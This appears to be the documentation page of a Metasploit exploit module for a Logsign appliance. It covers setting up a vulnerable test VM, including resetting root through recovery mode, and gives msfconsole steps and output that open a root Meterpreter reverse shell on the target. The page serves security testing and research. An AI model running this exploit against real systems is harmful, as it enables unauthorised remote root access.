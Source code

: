 ## Vulnerable Application

Download the vulnerable version of OVA or ISO file from following URL. I strongly suggest you to choose OVA.

Download links are provided for reference only and are not maintianed by the project. Utilize at your own risk!
http://s3-eu-west-1.amazonaws.com/innotim/Logsign.ova
http://s3-eu-west-1.amazonaws.com/innotim/forest-4.4.1-12.04.iso

### Creating A Testing Environment

1. Open OVA file with your preferred virtualisation application.
2. Before starting the virtual machine, choose NAT mode for interface.
3. Once the machine started, you must be seeing following information on screen.
```
Ubuntu 12.04.05 LTS - logsign customer tty1
IP: 12.0.0.10
...
Version: Focus
4.4.2 
```
4. Access the management interface by visiting `https://<ip_address>` through your browser.
5. Complete the installation by just submitting the fake data. 

**Please follow below instructions if you are seeing different IP address on the screen that doesn't belong to your NAT network range.**

Right after step 3, I've started to see totally different IP address on the screen which was something like 10.0.0.X. Since there is no such a network range in my configuration, it's impossible access to the machine through network. Here is the steps that shows how you can fix this issue. Follow these instructions and then go back to the step 5.

1. Reboot the machine
2. Start pressing ```shift``` button at the very beginning and keep pressing until you see GRUB menu.
3. Choose second line and press enter. We are going to about boot machine with recovery mode.
4. You must be seeing terminal right now. Execute following commands.
```
mount -rw -o remount /
```
5. Execute following command specify a new password for root user.
 ```
 passwd root
 ```
6. As a final step, reboot the machine.
 ```
reboot
 ```
7. Login with your root user.
8. Open ```/etc/network/interfaces``` file and perform necessary changes. Here is my own configuration. 
```
address 12.0.0.10
netmask 255.255.255.0
<removed line starting with 'network'>
<removed line starting with 'broadcast'>
gateway 12.0.0.2
dns-nameservers 8.8.8.8
```
9. Reboot the machine for a last time.

## Verification Steps

  1. Install the software as documented above
  2. Start `msfconsole`
  3. `use exploit/linux/http/logsign_exec`
  4. `set rhost 12.0.0.10`
  6. `python/meterpreter/reverse_tcp` is configured as a default payload. Change it if you need. Most of the case, you're okay go with default payload type.
  7. `set LHOST 12.0.0.1`
  8. `check` and validate that you are seeing following output.

```
[+] 12.0.0.10:80 The target is vulnerable.
```

  9. Here you go. Type `exploit` and hit the enter.

```
[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Delivering payload...
[*] Sending stage (38651 bytes) to 12.0.0.10
[*] Meterpreter session 2 opened (12.0.0.1:4444 -> 12.0.0.10:46057) at 2017-02-28 14:11:20 +0100

meterpreter > getuid
Server username: root
meterpreter >
```
